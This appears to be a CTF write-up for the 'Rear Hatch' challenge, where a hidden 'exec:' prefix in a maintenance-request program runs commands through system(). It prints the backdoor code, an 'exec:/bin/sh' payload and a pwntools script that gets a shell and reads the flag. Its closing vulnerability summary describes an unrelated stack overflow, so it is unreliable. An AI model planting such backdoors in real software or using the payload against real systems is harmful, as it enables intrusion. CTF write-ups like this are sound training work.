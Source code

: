 # Rear Hatch - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/RearHatch.gif)

---

## Challenge Summary

You are presented with a command-line program that manages maintenance requests stored in a file. You can add, view, delete, or mark requests as completed.

The vulnerability lies in the `markRequestCompleted()` function. If a request's description starts with the string `exec:`, the program extracts the following string and passes it to `system()`, allowing command execution.

To exploit it, add a new request with the description:

```
exec:/bin/sh
```

Then choose **option 4** to mark that request as completed. This triggers `system("/bin/sh")`, giving the user a shell.

## Binary Information

```bash
$ file RearHatch
```

![Alt text](img/2.png)

```bash
$ pwn checksec RearHatch
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Reviewing the source in CLion reveals a hidden command execution path in the `markRequestCompleted()` function:

```c
if (requests[i].id == id &&
    (strncmp((char *)requests + i*264 + 4, "\x65\x78\x65\x63\x3a", 5) == 0 ?
     system((char *)requests + i*264 + 9), 1 : 1))
```

![Alt text](img/4.png)

### Key Observations:

- `requests` is an array of structs (`MaintenanceRequest`) each 264 bytes in size.
- The comparison checks if the **description** of a request starts with `"exec:"` using `strncmp`.
- If matched, it calls `system()` on the contents of the description starting just after `"exec:"`.

This introduces a **hidden command injection backdoor**: the program will execute arbitrary shell commands embedded in the description field of a request when marked as completed.

---

## Exploit Strategy

To exploit this backdoored logic, you must:

1. **Add a new maintenance request** with the description starting with `exec:` followed by a shell command :

   ```
   exec:/bin/sh
   ```

   This is done via **option 1** (Add Maintenance Request).

2. Then choose **option 4** (Mark Request as Completed), and input the ID of the crafted request.

3. When the condition in `markRequestCompleted()` is met, the program detects the `exec:` prefix and executes the remaining string using `system()` — in this case, spawning a shell.

No memory corruption or complex exploitation is needed — it's a hidden **command execution backdoor** triggered via valid program flow.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template RearHatch --host kubenode.mctf.io --port 30014
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'RearHatch')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30014)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.sendline(b'1')
io.sendline(b'exec:/bin/sh')
io.sendline(b'4')
io.recvuntil(b'Enter the ID of the request to mark as completed: ')
io.sendline(b'1')
io.sendline(b'cat flag.txt')
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")




```

---

## Exploit Output

![Alt text](img/5.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{4lw4ys_r34d_4ll_7h3_c0d3}
```
